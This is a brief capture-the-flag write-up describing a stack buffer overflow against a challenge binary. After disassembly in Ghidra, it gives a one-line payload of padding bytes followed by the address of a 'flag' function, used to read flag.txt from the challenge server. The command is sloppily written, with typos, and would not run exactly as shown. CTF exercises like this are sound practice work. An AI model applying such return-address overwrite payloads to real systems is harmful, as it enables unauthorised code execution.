 Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). So i just used the command

```
pyton "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00"
```
To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
